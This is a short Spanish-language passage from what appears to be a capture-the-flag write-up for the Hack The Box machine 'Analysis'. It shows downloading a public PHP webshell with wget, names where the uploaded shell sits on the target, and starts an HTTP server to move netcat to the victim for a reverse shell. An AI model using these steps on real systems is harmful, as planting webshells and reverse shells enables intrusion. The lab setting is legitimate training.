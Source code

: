 ![alt text](image-8.png)

## WebShell upload

llevemos un webshell a nuestra máquina atacante, para subirlo a la web:

```bash
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
```

Después de subirlo, lo encontraremos en: http://internal.analysis.htb/dashboard/uploads/webshell.php

ahora subiremos netcat a la maquina victima para enviarnos un revshell:

```bash
python3 -m http.server
```

![alt text](image-9.png)
